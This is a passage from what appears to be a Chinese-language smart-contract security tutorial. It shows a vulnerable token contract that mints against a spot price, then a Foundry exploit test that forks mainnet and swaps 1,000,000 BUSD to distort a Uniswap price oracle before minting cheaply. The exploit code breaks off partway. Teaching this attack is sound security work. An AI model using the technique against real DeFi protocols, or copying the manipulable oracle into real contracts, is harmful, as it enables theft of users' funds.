 ```cpp

    function swap() external payable returns (uint256 amount) {
        // 获取价格
        uint256 price = getPrice();
        // 计算兑换数量
        amount = price * msg.value;
        // 铸造代币
        _mint(msg.sender, amount);
    }
}
```

#### EXP代码

```cpp
// pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 给自己账户 1000000 BUSD
        uint256 busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this)) / 10e18);
    }

    // Swap BUSD to WETH
```